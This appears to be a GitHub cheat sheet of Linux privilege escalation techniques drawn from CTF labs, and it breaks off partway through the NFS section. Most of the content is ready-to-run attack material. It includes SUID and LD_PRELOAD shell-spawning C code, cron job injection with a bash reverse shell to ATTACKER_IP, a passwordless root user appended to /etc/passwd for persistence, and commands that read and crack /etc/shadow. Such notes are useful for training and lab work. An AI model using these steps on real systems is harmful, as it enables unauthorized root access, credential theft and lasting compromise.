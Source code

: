 ### ***Linux Privilege Escalation Examples***

<details>
<summary>Kernel Exploits</summary>
 <br> 
 Kernel Exploits
 ----------------------
Step 1: Identify & Search for Exploits
The first step is to identify potential exploits for the target system. You can use Searchsploit to find known vulnerabilities for the specific kernel version.
    
    cat /proc/version
    uname -a #will print the Kernel Version
    searchsploit linux 3.13.0-24
This will list exploits relevant to the kernel version. In this case, the target kernel version is 3.13.0-24.

To extract all the vulnerable kernel versions from that web you can do:

    curl https://raw.githubusercontent.com/lucyoa/kernel-exploits/master/README.md 2>/dev/null | grep "Kernels: " | cut -d ":" -f 2 | cut -d "<" -f 1 | tr -d "," | tr ' ' '\n' | grep -v "^\d\.\d$" | sort -u -r | tr '\n' ' '
![image](https://github.com/user-attachments/assets/5629083f-a755-4c84-be78-db0c17a3e6fe)

Tools that could help searching for kernel exploits are:

[suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)
[suggester2](https://github.com/jondonas/linux-exploit-suggester-2)
[linuxprivchecker](http://www.securitysift.com/download/linuxprivchecker.py)

Always search the kernel version in Google, maybe your kernel version is wrote in some kernel exploit and then you will be sure that this exploit is valid.

Step 2: Locate the Exploit
Once you’ve identified a suitable exploit, use the locate command to find its full path and inspect the code.

    locate linux/local/37292.c
    cat /usr/share/exploitdb/exploits/linux/local/37292.c
This shows the contents of the exploit file, which you'll need to compile and execute.
![image](https://github.com/user-attachments/assets/3647680d-156d-453a-9f3b-8adb43c9396f)

Step 3: Check for Compiler and Permissions
Before proceeding with the exploit, ensure the necessary tools and permissions are available on the target system.

Check for GCC: Ensure that the GCC compiler is installed.

    which gcc
Check File Permissions: Verify that you have write permissions to the directory where you’ll save the exploit.

    ls -la
 ![image](https://github.com/user-attachments/assets/22116cd7-9f80-4db0-b85c-2120955a17bc)

Step 4: Copy and Rename the Exploit
Next, copy the exploit code to your Downloads folder and rename it to something like ofs.c.

    sudo cp /usr/share/exploitdb/exploits/linux/local/37292.c /home/kali/Downloads/
    mv 37292.c ofs.c
![image](https://github.com/user-attachments/assets/28fa1d5a-7532-42b9-bd10-1cfbabc9bcfa)

Step 5: Set Up an HTTP Server to Serve the Payload
On your attacker machine, start an HTTP server to serve the payload file (ofs.c) to the victim machine.

    updog -p 80
On the victim machine, use wget to download the exploit:

    wget http://10.6.42.239/ofs.c
![image](https://github.com/user-attachments/assets/b8dc99c8-d633-4f6c-a42c-8273b7f7e63f)

Step 6: Compile the Exploit
Now that the exploit is on the victim’s machine, compile the C code to create the binary that will escalate privileges.

    gcc ofs.c -o ofs
    ./ofs
Step 7: Verify Root Access
Once the exploit runs successfully, you should have root privileges. Verify by checking your user ID with whoami.

    whoami
You should see root, indicating that you’ve escalated to root privileges.
![image](https://github.com/user-attachments/assets/7729b24c-ccb3-49b2-af83-32e608213bcd)

Step 8: Locate the Flag
As a final step, search for the flag file on the system. You can use the following commands to locate and read the flag:

    find / -name flag1.txt 2>/dev/null
    cat /home/matt/flag1.txt
![image](https://github.com/user-attachments/assets/6fd0400a-4cff-4a01-a06d-1640757f4df3)

Summary
Privilege Escalation: This technique involves using kernel exploits to escalate user privileges.

Exploit Search: Use tools like Searchsploit to find relevant vulnerabilities for your target system.

Payload Delivery: Serve the payload using an HTTP server and download it on the target machine.

Compilation and Execution: Compile the C code and run it to gain root access.

Find and Read Flag: After gaining root privileges, locate the flag file to complete the task.


</details>

<details>
<summary>SUDO</summary>
 <br> 

Sudo Privileges
----------------------
Check Current Sudo Privileges
To check your current permissions related to sudo, you can use the following command:

    $ sudo -l
This will list the commands a user is allowed to run with sudo privileges. Based on this, an attacker may find a vulnerability to escalate privileges.
If a user has the ability to execute a command with sudo but doesn't have access to everything, we can search for payloads to leverage this.
search for payloads in https://gtfobins.github.io/

Exploit with Sudo
Assuming you can execute find with sudo, you can use the following command to spawn a shell with root privileges:

    sudo find . -exec /bin/sh \; -quit
![image](https://github.com/user-attachments/assets/1d174aff-f610-476e-bb4e-bb3d723280f9)

This command forces find to run a shell (/bin/sh) as root by using sudo. The -quit flag ensures that the find command stops executing immediately after spawning the shell.

Find Common Exploitable Binaries
Some binaries may be configured to allow root access when used with sudo. For example:

nano:
/usr/bin/nano is often a text editor installed on many Linux systems. If a user can run nano with root privileges, they can edit sensitive files, such as /etc/passwd.
![image](https://github.com/user-attachments/assets/e9e7c340-4896-4fe7-afec-00e1eb021b86)


less:
Similarly, less is a pager program, often used to view files. If improperly configured, it may allow privilege escalation:
![image](https://github.com/user-attachments/assets/ab8e392c-17f0-4c1e-be1d-61092cd8d27f)

Find the Flag
After successfully escalating privileges, you can search the system for the flag (or other sensitive files):

    find / -name flag.txt 2>/dev/null
Here, we look for a file called flag.txt and suppress any error messages.
![image](https://github.com/user-attachments/assets/d8883e72-a1a1-4fb4-bd40-dc2c3c781e46)

Find the Hash of Frank's Password
If the password file has been compromised or altered, you can often find hashes of user passwords, including Frank’s password:

      cat /etc/shadow | grep frank
Once you find the hash, you can try cracking it using tools like John the Ripper or Hashcat.
![image](https://github.com/user-attachments/assets/4ba1ec66-b320-40c7-8b8d-0d2d5fe25a1e)


Overwriting Files (Risky)

Warning: This command will overwrite important system files like /etc/passwd — don’t use this in production systems! This is useful only for Capture the Flag (CTF) scenarios or safe environments.

Here’s how you can potentially overwrite the /etc/passwd file to give yourself root access:
*** THIS WILL OVERWRITE THE PASSWD FILE, NOT A GOOD PRACTICE FOR CTF ***

    LFILE=/etc/passwd
    DATA='siren:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:siren:/home/siren:/bin/bash\n'
    sudo find / -maxdepth 0 -fprintf "$LFILE" "$DATA"
Explanation:

This command creates a new user called siren in the /etc/passwd file with root privileges by adding a new line. could allow you to access the system as the siren user with root access. However, remember that overwriting critical system files can be dangerous.

Sudo version
Based on the vulnerable sudo versions that appear in:

    searchsploit sudo
You can check if the sudo version is vulnerable using this grep.

    sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"

---
Abusing Intended Functionality
------------------------------


    $ sudo apache2 -f /etc/shadow
    Syntax error on line 1 of /etc/shadow:
    Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
---
Summary:

sudo Privileges: If a user has sudo access to certain commands (like find, nano, or less), they might be able to escalate their privileges.

Exploit via sudo: Using sudo find . -exec /bin/sh \; or exploiting misconfigurations with common binaries, an attacker could gain root access.

Overwriting Critical Files: Be cautious when overwriting system files like /etc/passwd — it’s risky but useful for CTFs.

Finding the Flag: Once you have root access, locate the flag and/or crack password hashes from /etc/shadow.
</details>

<details>
<summary>CORN JOB</summary>
 <br> 

Cron jobs
----------------------
Cron jobs are scheduled tasks that run scripts or binaries at specified times. By default, they execute with the privileges of their owner, not the user who triggers them. If a cron job is owned by root but writable by an unprivileged user, that user can inject code to run as root.

1. Understand Where Cron Jobs Live
System-wide crontab:
/etc/crontab — defines global scheduled tasks.

Per-user crontabs:
/var/spool/cron/crontabs/<username> — only editable by the respective user.

Cron directories (/etc/cron.hourly, /etc/cron.daily, etc.)

If PATH variable defined inside a crontab, and one of the paths is writable, and the cron job doesn't refer to an absolute path, we can exploit.


    $ cat /etc/crontab
    SHELL=/bin/sh
    PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

    * * * * * root backup.sh
   ![image](https://github.com/user-attachments/assets/d30b6e0d-abcc-46ad-9898-cdc241acff03)


In the example above, /home/karen is in the PATH and our user can write to it.

Confirm What’s Running and When
You can observe cron in action using a tool like pspy on the target:

Transfer and run pspy to monitor cron executions
[PSPY](https://github.com/DominicBreuker/pspy?tab=readme-ov-file)

    ./pspy64
You’ll see lines like:

[CRON] running /usr/local/bin/backup.sh

Inject Your Payload:

Create a /home/karen/backup.sh script which makes a SUID/SGID bit version of bash:
Since you have write access, append a reverse-shell or any root-shell payload:

Edit the script:

    nano /usr/local/bin/backup.sh
Append, for example, a simple bash reverse shell:

    # …existing backup commands…
    bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
Save and exit.
Check and make the script executable:

    $ chmod +x /home/karen/backup.sh

Now wait for the cron job to execute. When it does,Start a listener on your attacker machine:


    $ nc -lvnp 4444
    #
Wait up to one minute for cron to run the modified script.

You’ll receive a root shell connection.

Wildcards
---------

If the cron job script contains bash wildcards that reference files, and we can create files in the relevant directory, it may be possible to create files with filenames that can be used as command line flags.


    $ cat /etc/crontab
    ...
    * * * * * root /usr/local/bin/compress.sh


    $ cat /usr/local/bin/compress.sh
    #!/bin/sh
    cd /home/user
    tar czf /tmp/backup.tar.gz *

The tar executable has a checkpoint feature which displays progress messages every specific number of records. It also allows users to define an action that is executed during the checkpoint.

Create a script (runme.sh) which makes a SUID/SGID bit version of bash:


    #!/bin/bash
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash

Make the script executable:


    $ chmod +x runme.sh

Create two files in the directory that the tar command is run in, with the filename set to the full command line options:


    touch /home/user/--checkpoint=1
    touch /home/user/--checkpoint-action=exec=sh\ runme.sh

Now wait for the cron job to execute. When it does, execute the /tmp/rootbash binary and get a root shell. Remember to use the -p command line option to preserve the SUID/SGID:


    $ /tmp/rootbash -p
    #

File Overwrite
--------------

If a cron job script is writable, we can modify it and run commands as root:


    $ cat /etc/crontab
    ...
    * * * * * root overwrite.sh


    $ locate overwrite.sh
    /usr/local/bin/overwrite.sh
    $ ls -l /usr/local/bin/overwrite.sh
    -rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh

The /usr/local/bin/overwrite.sh file is world-writable.

Overwrite the /usr/local/bin/overwrite.sh script with one that makes a SUID/SGID bit version of bash:


    #!/bin/bash
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash

Now wait for the cron job to execute. When it does, execute the /tmp/rootbash binary and get a root shell. Remember to use the -p command line option to preserve the SUID/SGID:


    $ /tmp/rootbash -p
    #
</details>

<details>
<summary>File Permissions</summary>
 <br> 

Writable /etc/passwd Privilege Escalation

The /etc/passwd file on Unix-like systems contains essential information about user accounts, including the username, UID, GID, home directory, and default shell. If this file is writable by an unprivileged user, it presents a significant security vulnerability.

1. The passwd File Format
Each line in /etc/passwd represents a user account in the following format:

       username:password:UID:GID:GECOS:home_dir:shell

Exploiting a Writable /etc/passwd
If an attacker can modify /etc/passwd and add an entry for a new user with UID 0 (the root user ID), they can gain root access without needing a password.

Steps to Add a New Root User
Check if /etc/passwd is writable: Verify if you have write access to /etc/passwd:

    ls -l /etc/passwd
If you have write permissions, proceed.

Add a new root user: Use echo to append a new user to /etc/passwd with UID 0 (root user). This will make the new user a root user with no password.

    echo newroot::0:0:root:/root:/bin/bash >> /etc/passwd
Explanation:

newroot is the username of the new account.

:: indicates no password.

0:0 are the UID and GID for root.

/root is the home directory (root's home).

/bin/bash is the default shell for this new user.

Switch to the new root user: Use su (switch user) to change to the newroot account:

    su newroot
You now have root privileges: After switching, you will have a root shell:

    # whoami
      root
Important Notes
No Password Needed: Since the new account has no password, the system won't prompt for one, and you can immediately log in as the new root user.

Permanent Access: The new root user will persist across reboots until /etc/passwd is modified again. This makes this method highly effective for establishing persistent root access.

</details>

<details>
<summary>SUID Binaries</summary>
 <br> 
Shared Object Injection
 ----------------------
Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.
^^^^^^^^^^^^^^^^^^^^^^^

Shared Objects (.so) are the \*nix equivalent of Windows DLLs. If a program references a shared object that we can write to (even if it doesn't exist) we can run commands with the user context of the application.

Find SUID/SGID binaries:

    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    or
    find / -type f -perm -04000 -ls 2>/dev/null
    or
    find / -perm -u=s -type f 2>/dev/null
    
These commands search the system for files with the SUID (04000) or SGID (02000) bits set and list them. Files with these special permission bits could potentially allow privilege escalation.

 ![image](https://github.com/user-attachments/assets/8886aea9-5c2f-47cf-adb5-361f174fde67)

A good practice would be to compare executables on this list with GTFOBins. Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a [pre-filtered list](https://gtfobins.github.io/#+suid).

Base64 configured with the SUID bit, can be leveraged for privilege escalation.
Decoding Base64-Encoded Files
You can sometimes encounter base64-encoded files like /etc/shadow or /etc/passwd, which contain encrypted or sensitive data. To decode these files, use the following commands:

Example for /etc/shadow:

    LFILE=/etc/shadow
    base64 "$LFILE" | base64 --decode
This will decode the base64-encoded contents of /etc/shadow.
![image](https://github.com/user-attachments/assets/a520482d-fa30-4ac5-876e-17b2c3c13bc7)

Example for /etc/passwd:

    LFILE=/etc/passwd
    base64 "$LFILE" | base64 --decode
This will decode the base64-encoded contents of /etc/passwd.

Cracking Password Hashes
After you have decoded sensitive files like /etc/shadow or /etc/passwd, you can extract password hashes and attempt to crack them.

Cracking /etc/shadow and /etc/passwd
Decode both files and copy them to your system. Then, run the following commands to prepare for password cracking:

    unshadow user2pass user2 > passwd.txt  # user2pass = /etc/passwd, user2 = /etc/shadow

Use John the Ripper to crack the password hashes with a wordlist:

    sudo john --wordlist=/usr/share/wordlists/rockyou.txt passwd.txt
This will attempt to crack the password hashes using the rockyou.txt wordlist.
![image](https://github.com/user-attachments/assets/fcef5969-8533-4831-818a-946f88f12ed3)

Directly flag can be achived using base64 ablites: 
Example for a specific file (e.g., flag3.txt):

      LFILE=home/ubuntu/flag3.txt
      base64 "$LFILE" | base64 --decode
This command decodes the contents of flag3.txt.
![image](https://github.com/user-attachments/assets/cc23f201-dde6-4043-9ac5-9580c5648988)

Use strace to find references to shared objects:

    $ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
    access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
    open("/etc/ld.so.cache", O_RDONLY)      = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libdl.so.2", O_RDONLY)       = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libm.so.6", O_RDONLY)        = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libc.so.6", O_RDONLY)        = 3
    open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)

The shared object /home/user/.config/libcalc.so is referenced, but it doesn't exist. Luckily it is in a writable directory.

Create a C program (libcalc.c) and compile it to a shared object:


    #include <stdio.h>
    #include <stdlib.h>

    static void inject() __attribute__((constructor));
    void inject() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }


    $ gcc -shared -fPIC -o libcalc.so libcalc.c

Move the libcalc.so shared object to the path referenced by the SUID binary:


    $ mkdir -p /home/user/.config
    $ cp libcalc.so /home/user/.config/libcalc.so

Now run the SUID binary, it should give you a root shell immediately:


    $ suid-so
    Calculating something, please wait...
    root@debian:~# 

Symlink
^^^^^^^

TODO

Environment Variables - Relative Paths
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Find SUID/SGID binaries:


    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    -rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
    -rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
    -rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
    -rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
    -rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
    -rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
    -rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
    -rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
    -rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
    -rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
    -rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
    -rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
    -rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
    -rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
    -rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
    -rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
    -rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
    -rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
    -rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
    -rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
    -rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs

Use strings to find any strings in the executable, especially system commands:


    $ strings /usr/local/bin/suid-env
    /lib64/ld-linux-x86-64.so.2
    5q;Xq
    __gmon_start__
    libc.so.6
    setresgid
    setresuid
    system
    __libc_start_main
    GLIBC_2.2.5
    fff.
    fffff.
    l$ L
    t$(L
    |$0H
    service apache2 start

The "service" command doesn't have an absolute path. When it is called, \*nix will try to find it by traversing the PATH environment variable. We can modify the PATH variable and create a malicious version of the service binary which will spawn a root shell when it is run.

First create a C program (service.c):


    int main() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }

Compile it to our malicious binary:


    $ gcc -o /tmp/service service.c

Add /tmp to the start of the PATH environment variable and export it:


    $ export PATH=/tmp:$PATH

Now run the original SUID/SGID binary. A root shell should spawn:


    $ /usr/local/bin/suid-env
    #

Environment Variables - Absolute Paths
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Find SUID/SGID binaries:


    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    -rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
    -rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
    -rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
    -rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
    -rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
    -rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
    -rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
    -rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
    -rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
    -rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
    -rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
    -rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
    -rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
    -rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
    -rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
    -rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
    -rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
    -rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
    -rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
    -rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
    -rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs

Use strings to find any strings in the executable, especially system commands:


    $ strings /usr/local/bin/suid-env2
    /lib64/ld-linux-x86-64.so.2
    __gmon_start__
    libc.so.6
    setresgid
    setresuid
    system
    __libc_start_main
    GLIBC_2.2.5
    fff.
    fffff.
    l$ L
    t$(L
    |$0H
    /usr/sbin/service apache2 start

The /usr/sbin/service command seems to be interesting, however it has an absolute path and cannot be edited.

Some versions of Bash (<4.2-048) and Dash let you define functions with the same name as an absolute path. These then take precedent above the actual executable themselves.

Define a bash function "/usr/sbin/service" that creates an SUID/SGID version of bash:


    $ function /usr/sbin/service() { cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash && /tmp/rootbash -p;}

Export the new function:


    $ export -f /usr/sbin/service

Now run the original SUID/SGID binary. A root shell should spawn:


    $ /usr/local/bin/suid-env2
    #

Bash also supports a script debugging mode, and uses the PS4 environment variable to define a prompt for the debugging mode.

We can get an instance root shell:


    env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash && chown root:root /tmp/rootbash && chmod +s /tmp/rootbash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/rootbash -p'
</details>
<details>
<summary>Capabilities</summary>
 <br> 
What Are Capabilities?
----------------------
In Unix-like systems, capabilities are used to provide more granular control over the privileges of processes or binaries, rather than granting full root access. This method allows administrators to assign specific privileges to processes that would typically require higher-level permissions.

For example:

A SOC analyst might need to run a tool that initiates socket connections, but they don't require full root access. By using capabilities, the administrator can grant just the necessary permission to that specific tool, rather than giving the analyst root privileges.

How Capabilities Work
Instead of giving a program full root privileges, a system administrator can set specific capabilities on a binary to allow it to perform certain actions that would otherwise require elevated privileges. For instance, a binary might be given the capability to bind to privileged ports or set user IDs without granting the user full root access.

You can check which capabilities are assigned to a binary or process using the getcap tool.

Checking Capabilities on a System
To list all the binaries with specific capabilities set on your system, use the following command:

getcap -r / 2>/dev/null
This command recursively checks all files starting from the root directory and lists those with capabilities set. The output might look something like this:

/usr/bin/vim = cap_setuid+ep
This means that the vim binary has the cap_setuid capability, which allows it to change its user ID (UID) to any value, including root (UID 0).

Example of Exploiting Capabilities for Privilege Escalation
Let's say the vim binary has been granted the cap_setuid capability. This capability allows vim to change the user ID of the current process. If we can use this capability to set the user ID to 0 (root), we can effectively escalate our privileges.

Check the Capabilities: We use the getcap tool to see that vim has the cap_setuid capability set.

getcap /usr/bin/vim
Output might be:

/usr/bin/vim = cap_setuid+ep
Escalate to Root Using vim: With the cap_setuid capability, we can craft a command that uses vim to escalate to root. The following command utilizes Python scripting inside vim to change the user ID to 0 (root) and then spawn a root shell:

./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
Breakdown of the Command:
:py3 import os: This imports the Python os module within vim.

os.setuid(0): This changes the user ID of the current process to 0, which is the root user.

os.execl("/bin/sh", "sh", "-c", "reset; exec sh"): This replaces the current process (which is vim) with a new shell (/bin/sh), and it spawns a root shell.

Result:
This command will execute the Python code inside vim, which changes the user ID to 0 (root) and opens a shell with root privileges. The result is a root shell.

After executing this, running whoami will show:

# whoami
root
You now have root access without needing to log in as the root user.

Conclusion
Capabilities offer a more granular control over process privileges by allowing specific permissions, such as changing user IDs or binding to privileged ports, to be granted to a binary.

If a binary like vim is configured with the cap_setuid capability, it can change its UID to root and escalate privileges.

Always ensure to audit and manage capabilities carefully to avoid inadvertent privilege escalation opportunities.

This method highlights the importance of reviewing and controlling which capabilities are granted to binaries on your system.
</details>
<details>
<summary>PATH Hijacking</summary>
 <br> 
 What is the PATH Environment Variable?
 ----------------------
In Linux, PATH is an environmental variable that tells the operating system where to look for executable files. When you run a command in the shell (such as ls, cat, or any custom script), Linux searches for that command in the directories listed in the PATH variable.

For example:

If a command is not built into the shell or if its absolute path is not specified, Linux will start searching for it in the directories defined under the PATH variable.

The PATH variable typically contains directories like /usr/bin, /bin, /usr/local/bin, etc., where most of the system binaries are stored.

How to Check the PATH?
You can check the current directories in your PATH by running:

echo $PATH
This will show a colon-separated list of directories, like this:

/usr/local/bin:/usr/bin:/bin:/usr/sbin:/sbin:/usr/local/games:/usr/games:/snap/bin
Exploiting Writable Folders in PATH
If a folder listed in PATH has write permissions for your user, you could potentially hijack an application by placing a malicious script or executable in that folder. This could trick the system into running your script instead of the legitimate binary when the application is called.

Writable Folders Search: To identify writable directories in the PATH, you can use the following command:

find / -writable 2>/dev/null | grep usr | cut -d "/" -f 2,3 | sort -u
This will search for writable folders under the /usr directory and display the results. Some of these directories may be part of the PATH and could be hijacked.

Example output might look like this:

/usr/local
/usr/bin
Hijacking a Command: If a writable folder is found in PATH, you can replace a system command with a malicious script. For example, you could create a script named thm in a writable directory like /tmp and hijack the thm command.

Example of Hijacking Using Writable Folders in PATH
Let’s consider the following example:

Check the Current PATH: We can check if /tmp is in the PATH by running:

echo $PATH
If /tmp is not in the PATH, we can add it. This is done using the following command:

export PATH=/tmp:$PATH
This command prepends /tmp to the beginning of the PATH, making it the first directory that the system will search for executables.

Creating a Malicious Script: Next, we can create a malicious executable in /tmp. In this case, we can copy the /bin/bash binary to /tmp and rename it to thm:

cp /bin/bash /tmp/thm
chmod +x /tmp/thm
Hijacking the Application: Now, if the system tries to run the thm command, it will search in /tmp first (because we added it to the PATH). Since we have placed our malicious thm script in /tmp, the system will execute our script instead of the legitimate one.

When the user runs the thm command, the system will execute the bash shell from /tmp, giving the attacker a shell with the same privileges as the user who ran the command.
</details>
<details>
<summary>Startup Scripts</summary>
 <br> 

Startup scripts are stored under /etc/init.d, and are usually run with elevated privileges.

Find world-writable startup scripts:


    $ find /etc/init.d -perm -o+w -type f -exec ls -l {} \; 2>/dev/null
    -rwxr-xrwx 1 root root 801 May 14  2017 /etc/init.d/rc.local

Edit the script and add some code that creates an SUID/SGID bash shell:


    cp /bin/bash /tmp/rootbash
    chown root:root /tmp/rootbash
    chmod +s /tmp/rootbash

Now restart the remote host, and once the host is restarted, spawn a root shell:


    $ /tmp/rootbash -p
    #
</details>
<details>
<summary>Configuration Files</summary>
 <br> 

Configuration files are usually stored in /etc.
----------------------
Check writable files to see if we can introduce misconfigurations (e.g. if /etc/exports is writable, we can define NFS shares with root squashing turned off).
</details>
</details>
<details>
<summary>LD_PRELOAD</summary>
 <br> 
Environment variables:

* LD_LIBRARY_PATH - A list of directories in which to search for RLF libraries at execution time.
* LD_PRELOAD - A list of additional, user-specified, ELF shared objects to be loaded before all others.

Sudo has the ability to preserve certain environment variables:


    $ sudo -l
    Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD

Compile a shared object (.so) file:


    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>

    void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }


    $ gcc -fPIC -shared -nostartfiles -o preload.so preload.c

Set the environment variable as part of the sudo command. The full path to the .so file needs to be used. Your user must be able to run the command via sudo.


    $ sudo LD_PRELOAD=/full/path/tp/preload.so apache2
    #
</details>
<details>
<summary>NFS</summary>
 <br> 

NFS allows a host to share file system resources over a network. Access Control is based on the server's file system, and on the uid/gid provided by the connecting client.

Root squashing maps files owned by root (uid 0) to a different ID (e.g. anonymous or nobody). If the "no_root_squash" option is enabled, files owned by root will not get mapped. This means that as long as you access the NFS share as a root (uid 0) user, you can write to the host file system as root.


    $ cat /etc/exports

    /tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

On your local machine, check that the NFS share is accessible:


    # showmount -e 10.0.0.1
    Export list for 10.0.0.1:
    /tmp *

On your local machine, make a directory to mount the remote share, and then mount it:


    # mkdir /tmp/mount
    # mount -o rw,vers=2 10.0.0.1:/tmp /tmp/mount
    # ls /tmp/mount
    backup.tar.gz  useless

Create an executable that calls /bin/bash with root level permissions in the mounted share and set the SUID bit:


    int main() {
        setresuid(0,0,0);
